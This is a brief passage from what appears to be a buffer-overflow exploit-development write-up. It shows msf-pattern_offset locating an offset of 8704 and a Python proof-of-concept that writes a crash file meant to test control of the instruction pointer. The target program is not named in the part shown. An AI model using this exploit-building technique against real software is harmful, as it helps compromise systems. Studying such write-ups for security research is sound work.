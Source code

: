 ![](/assets/img/Findings4/0.png)

The offset is found with the use of msf-pattern_offset:

```term_session
root@kali:~# msf-pattern_offset -q 654C3165 -l 9000 
[*] Exact match at offset 8704
root@kali:~# 
```

Now it is needed to verify whether the control has been achieved or not.

Updated PoC:

```term_session
import struct

buffer = "A" * 8704 + "BBBB" + "\xff" * 200 

f = open ("finding4.txt", "w")
f.write(buffer)
f.close()
```
